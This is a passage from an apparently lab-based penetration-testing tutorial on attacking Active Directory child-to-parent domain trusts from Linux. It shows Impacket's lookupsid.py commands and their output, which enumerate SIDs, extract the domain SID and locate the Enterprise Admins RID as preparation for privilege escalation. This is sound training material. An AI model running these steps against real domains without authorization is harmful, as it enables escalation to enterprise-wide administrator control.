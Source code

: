 ```shell-session
516: LOGISTICS\Domain Controllers (SidTypeGroup)
517: LOGISTICS\Cert Publishers (SidTypeAlias)
520: LOGISTICS\Group Policy Creator Owners (SidTypeGroup)
521: LOGISTICS\Read-only Domain Controllers (SidTypeGroup)
522: LOGISTICS\Cloneable Domain Controllers (SidTypeGroup)
525: LOGISTICS\Protected Users (SidTypeGroup)
526: LOGISTICS\Key Admins (SidTypeGroup)
553: LOGISTICS\RAS and IAS Servers (SidTypeAlias)
571: LOGISTICS\Allowed RODC Password Replication Group (SidTypeAlias)
572: LOGISTICS\Denied RODC Password Replication Group (SidTypeAlias)
1001: LOGISTICS\lab_adm (SidTypeUser)
1002: LOGISTICS\ACADEMY-EA-DC02$ (SidTypeUser)
1103: LOGISTICS\DnsAdmins (SidTypeAlias)
1104: LOGISTICS\DnsUpdateProxy (SidTypeGroup)
1105: LOGISTICS\INLANEFREIGHT$ (SidTypeUser)
1106: LOGISTICS\htb-student_adm (SidTypeUser)
```

We can filter out the noise by piping the command output to grep and looking for just the domain SID.

#### Looking for the Domain SID

Attacking Domain Trusts - Child -> Parent Trusts - from Linux

```shell-session
swmpdnky@htb[/htb]$ lookupsid.py logistics.inlanefreight.local/htb-student_adm@172.16.5.240 | grep "Domain SID"

Password:

[*] Domain SID is: S-1-5-21-2806153819-209893948-92287268
```

Next, we can rerun the command, targeting the INLANEFREIGHT Domain Controller (DC01) at 172.16.5.5 and grab the domain `SID S-1-5-21-3842939050-3880317879-2865463114` and attach the RID of the Enterprise Admins group. [Here](https://adsecurity.org/?p=1001) is a handy list of well-known SIDs.

#### Grabbing the Domain SID & Attaching to Enterprise Admin's RID

Attacking Domain Trusts - Child -> Parent Trusts - from Linux

```shell-session
swmpdnky@htb[/htb]$ lookupsid.py logistics.inlanefreight.local/htb-student_adm@172.16.5.5 | grep -B12 "Enterprise Admins"

Password:
[*] Domain SID is: S-1-5-21-3842939050-3880317879-2865463114
498: INLANEFREIGHT\Enterprise Read-only Domain Controllers (SidTypeGroup)
500: INLANEFREIGHT\administrator (SidTypeUser)
501: INLANEFREIGHT\guest (SidTypeUser)
502: INLANEFREIGHT\krbtgt (SidTypeUser)
512: INLANEFREIGHT\Domain Admins (SidTypeGroup)
513: INLANEFREIGHT\Domain Users (SidTypeGroup)
514: INLANEFREIGHT\Domain Guests (SidTypeGroup)
515: INLANEFREIGHT\Domain Computers (SidTypeGroup)
516: INLANEFREIGHT\Domain Controllers (SidTypeGroup)
517: INLANEFREIGHT\Cert Publishers (SidTypeAlias)
518: INLANEFREIGHT\Schema Admins (SidTypeGroup)
519: INLANEFREIGHT\Enterprise Admins (SidTypeGroup)
```
